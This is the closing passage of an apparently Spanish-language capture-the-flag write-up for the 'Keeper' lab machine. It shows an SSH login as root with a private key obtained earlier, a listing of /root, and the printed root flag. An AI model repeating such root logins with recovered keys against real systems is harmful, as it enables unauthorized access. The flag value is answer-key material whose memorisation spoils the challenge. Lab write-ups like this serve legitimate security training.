 - Intentamos entrar con ssh con la clave generada

```bash
ssh root@keeper.htb -i id_rsa
Welcome to Ubuntu 22.04.3 LTS (GNU/Linux 5.15.0-78-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

You have new mail.
Last login: Tue Oct 29 12:44:52 2024 from 10.10.16.2
root@keeper:~# ls -la
total 85384
drwx------  5 root root     4096 Oct 29 11:53 .
drwxr-xr-x 18 root root     4096 Jul 27  2023 ..
lrwxrwxrwx  1 root root        9 May 24  2023 .bash_history -> /dev/null
-rw-r--r--  1 root root     3106 Dec  5  2019 .bashrc
drwx------  2 root root     4096 May 24  2023 .cache
-rw-------  1 root root       20 Jul 27  2023 .lesshst
lrwxrwxrwx  1 root root        9 May 24  2023 .mysql_history -> /dev/null
-rw-r--r--  1 root root      161 Dec  5  2019 .profile
-rw-r-----  1 root root       33 Oct 29 11:53 root.txt
-rw-r--r--  1 root root 87391651 Jul 25  2023 RT30000.zip
drwxr-xr-x  2 root root     4096 Jul 25  2023 SQL
drwxr-xr-x  2 root root     4096 May 24  2023 .ssh
-rw-r--r--  1 root root       39 Jul 20  2023 .vimrc
root@keeper:~# cat root.txt 
fc24007e975259a610b2fe01e7fb6a30
root@keeper:~#
```

Como podemos ver ganamos el control total de la maquina y ya hemos completado este reto.